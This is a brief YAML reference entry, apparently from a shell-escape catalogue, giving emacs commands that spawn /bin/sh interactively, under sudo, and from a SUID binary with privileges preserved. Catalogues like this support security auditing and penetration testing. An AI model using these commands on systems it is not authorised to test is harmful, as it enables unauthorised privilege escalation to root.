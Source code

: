 ```yaml
---
functions:
  execute-interactive:
    - code: emacs -Q -nw --eval '(term "/bin/sh")'
  sudo-enabled:
    - code: sudo emacs -Q -nw --eval '(term "/bin/sh")'
  suid-enabled:
    - code: ./emacs -Q -nw --eval '(term "/bin/sh -p")'
---
```


